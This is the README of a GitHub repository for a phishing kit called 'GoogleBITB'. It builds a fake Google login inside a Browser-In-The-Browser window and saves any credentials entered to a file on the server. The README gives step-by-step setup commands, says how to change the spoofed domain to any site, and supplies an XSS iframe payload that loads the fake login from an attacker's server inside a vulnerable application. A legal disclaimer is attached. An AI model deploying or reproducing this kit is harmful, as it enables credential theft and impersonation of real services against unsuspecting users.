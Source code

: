 # GoogleBITB

This repo contains a fake two-part Google Login implemented within a Browser-In-The-Browser attack window. It can be used on a web server that supports PHP files. Any entered credentials are saved in <i>/opt/GoogleBITB/creds.txt</i>. The Domain Suffix can be changed from <b>@client.com</b> to any site of your choosing (to do this, just edit line 21 of login_page.html). Follow steps below for a quick and easy setup.

<p align='center'>
<img alt='Email Page' src='http://165.227.79.102/img/4.png?q=1' style='width:800px;'/>
</p>

Legal Disclaimer: Usage of this repo for attacking targets without prior consent is illegal. It is the end user's responsiblity to obey applicable local, state and federal laws. Developer assumes no liability for any misuse or damage caused by this repo.

### Get Started

Run the below commands in the <b>/var/www/html</b> folder of your web server.

```
git clone https://github.com/jakedmurphy1/GoogleBITB.git
```

```
cd GoogleBITB
```

```
chmod 666 creds.txt
```
Move the credentials file into a non-public folder:
```
mkdir /opt/GoogleBITB && mv creds.txt /opt/GoogleBITB/creds.txt
```

Then visit <i>/GoogleBITB/index.html</i> in your browser and give it a try! Any gathered credentials will be stored in <i>/opt/GoogleBITB/creds.txt</i>

### Getting Creds from a XSS Attack

You can use this repo to steal credentials through a XSS attack. Just set it up and use the following XSS payload:
```
"><iframe style='border:none;width:100%;height:100%' scrolling='no' src='https://[ATTACKER_SERVER]/GoogleBITB/index.html'/>
```
<i> Be sure to have HTTPS on your server or the iframe will not render.</i>

This payload will create a frame within frame (inception) prompting the user to sign in from what appears to be the vulnerable application. 

### Sources
https://github.com/jakedmurphy1/GooglePhishing

https://github.com/mrd0x/BITB
